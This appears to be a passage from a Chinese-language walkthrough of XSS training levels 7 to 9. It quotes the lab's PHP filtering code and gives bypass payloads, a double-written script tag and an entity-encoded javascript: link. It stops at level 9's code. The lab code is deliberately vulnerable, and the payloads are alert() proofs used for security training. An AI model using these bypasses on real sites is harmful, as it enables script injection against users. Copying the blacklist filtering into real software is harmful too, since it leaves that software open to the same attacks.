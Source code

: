 这一关,只要检测到 `on`,`href`,`src`,`script` 等关键字,会直接过滤成空

闭合,然后双写,让他正好构造出 script

payload: `"><scrscriptipt>alert("1")</scrscriptipt>`

---

# level 8

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```
```php
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
```

这一关目的将 payload 写入 `<a>` 的 herf 中

尝试构造 payload `<a href=javascript:alert(1)>`,其中 script 会被转成 scr_ipt

这里可以将 r 实体编号为 `&#114;`,然后触发 HTML 解码,将 `sc&#114;ipt` 解码为 `script`

payload: `javasc&#114;ipt:alert(1)`

---

# level 9

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```
```php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有!">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
```

